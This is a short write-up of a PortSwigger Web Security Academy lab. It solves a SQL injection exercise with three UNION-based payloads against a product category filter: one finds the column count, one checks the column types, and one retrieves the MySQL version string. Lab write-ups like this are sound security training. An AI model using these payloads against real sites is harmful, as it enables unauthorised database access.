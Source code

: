 ```yaml
---
title: 'Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
###### tags: `Portswigger Web Security Academy` `Web`
* Description: his lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* Goal: To solve the lab, display the database version string. 

## Exp
1. Consider # of column
Payload: `?category=Accessories' union select NULL,NULL -- #`
2. Consider column type
Payload: `?category=Accessories' union select 'a','a' -- #`
Both of them contained text.
3. Attack
Payload: `?category=Accessories' union select 'abc',@@version -- #`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/vOx5kCK.png)
    :::

## Reference